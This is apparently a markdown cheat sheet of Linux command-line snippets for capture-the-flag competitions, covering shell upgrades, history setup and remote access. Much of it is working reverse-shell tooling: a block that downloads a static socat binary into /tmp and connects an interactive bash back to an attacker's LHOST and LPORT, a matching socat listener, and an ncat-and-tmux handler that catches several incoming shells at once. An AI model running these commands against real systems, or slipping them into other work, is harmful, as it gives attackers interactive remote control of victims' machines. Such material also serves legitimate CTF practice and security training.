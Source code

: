 # Command line scripts for CTF's

## Linux 

### Improve shell
- Improve the prompt:

```shell
bash -i
```

- Enable history (on a ssh server)

```bash
bash -i;
DIR=`mktemp -d /tmp/ctf_XXX`
cd "${DIR}"
export HISTFILE=`pwd`/.bash_history
set -o history
```

#### Real tty, through socat

__reverse_client__:
```shell
LHOST="<IP>"
LPORT="<PORT>"
cd /tmp
curl https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat -o socat
chmod u+rwx socat
./socat exec:bash -li,pty,stderr,setsid,sigint,sane tcp:${LHOST}:${LPORT}
```

__server (LHOST)__:
```
socat file:`tty`,raw,echo=0 tcp-listen:8881
```

#### Reverse shell handler (multi window/pane)

- Multi window server
    + Requires: `tmux` and `ncat`

__Reverse shell server__:
```shell
PORT=4444
ncat -lkv -v "${PORT}" -c "
        s=\$(mktemp -u -d `pwd`/socket.\${NCAT_REMOTE_ADDR}.\${NCAT_REMOTE_PORT}.XXX);
        # tmux new-window \"ncat -lU \$s; read\";
        tmux split-window -h \"ncat -lU \$s; read\";
        sleep 1;
        ncat -U \$s;
        rm \$s;"
```

